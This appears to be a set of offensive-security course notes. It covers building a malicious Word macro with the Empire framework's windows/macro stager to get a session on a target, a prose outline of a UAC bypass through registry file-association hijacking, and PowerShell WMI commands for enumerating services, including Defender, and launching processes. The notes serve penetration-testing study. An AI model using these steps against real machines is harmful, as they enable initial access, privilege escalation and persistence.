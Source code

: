 ### Client side attack
```powershell
main = to come back to the main menu
usestager windows/macro
info
set Listener http
set OutFile root/tools/Empire/data/macro
execute 
```

the macro code will be save in that directory
we can copy-paste the macro to a word document
make sure that you enable developer tab For your version of microsoft word
alt+f11 = to open the visual basic 
copy the payload to the editor
save the file .doc

> as the result of the macro execution in the target machine, we get a session in Empire


## UAC Bypass PowerShell Exploit Script Walkthrough

- Identify the program that which auto elevates to a high integrity process, which naturally bypass UAC in a sense.
- Identify that the program checks For registry keys and values which are writable by us
- and its responsable to associate file types of the msi extension to a specific application
- we also hijack that process, to launch a command of our choosen, which was the calculator program.


### Introduction to Leveraging WMI and Methods For Persistence
```powershell
Get-WmiObject
Get-Help Get-WmiObject
Get-Help wmi

Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace"
Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace" | Select-Object Name
Get-WmiObject -Namespace "root/cimv2" -List | Where-Object {$_.Name -Match "Win32_Service"}
Get-WmiObject -Class Win32_Service | Where-Object {$_.State -Match "Running"}
Get-WmiObject -Class Win32_Service | Where-Object {$_.Name -Match "Defend"}
Get-WmiObject -Class Win32_Process -List
Get-WmiObject -List Win32_Process | Get-Member -Membertyoe Method
```

```powershell

$proc = Get-WmiObject -List Win32_Process
$proc.Create("cmd.exe")

```

> this should launch cmd.exe as a child process from WmiProvider
